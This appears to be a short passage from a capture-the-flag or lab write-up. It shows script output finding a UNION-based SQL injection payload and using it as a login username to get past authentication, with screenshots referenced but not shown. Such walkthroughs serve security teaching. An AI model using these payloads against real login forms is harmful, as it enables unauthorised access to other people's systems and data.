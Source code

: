 ```python
[+] Testing column count: 4 with payload: ' UNION SELECT 1,2,3,4-- -

[✔] SUCCESS! Column count is likely: 4
[+] Working payload: ' UNION SELECT 1,2,3,4-- -
[+] Login credentials:
    Username: ' UNION SELECT 1,2,3,4-- -
    Password: password123
```

![Pasted image 20250805175903.png](../../IMAGES/Pasted%20image%2020250805175903.png)

If we login with the credentials provided by the script and send a word count, we can find this:

![Pasted image 20250805180042.png](../../IMAGES/Pasted%20image%2020250805180042.png)
